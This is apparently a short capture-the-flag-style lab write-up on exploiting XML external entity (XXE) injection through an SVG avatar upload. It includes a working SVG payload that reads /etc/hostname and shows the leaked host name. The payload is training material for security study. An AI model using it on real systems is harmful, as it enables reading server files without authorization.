 # Lab: Exploiting XXE via image file upload # 

## Lab Description ##

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/dab82c26-0816-4273-9572-94440bdfa5a9)

> Create a local SVG image with the following content:
```
  <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text></svg>
```
> Post a comment on a blog post, and upload this image as an avatar.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/2585d2e3-f05a-4ec9-8a71-e3f530b3d149)

> If we view the avatar we printed the host name `cc4857beaaeb`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/9e200da4-8eb1-4e24-878b-bdbc7eaf4614)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/c558d7ad-6320-4c4c-917e-8b337a6e1e76)

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/64cbb62b-02f4-4ce7-8ddb-191daef2fad6)
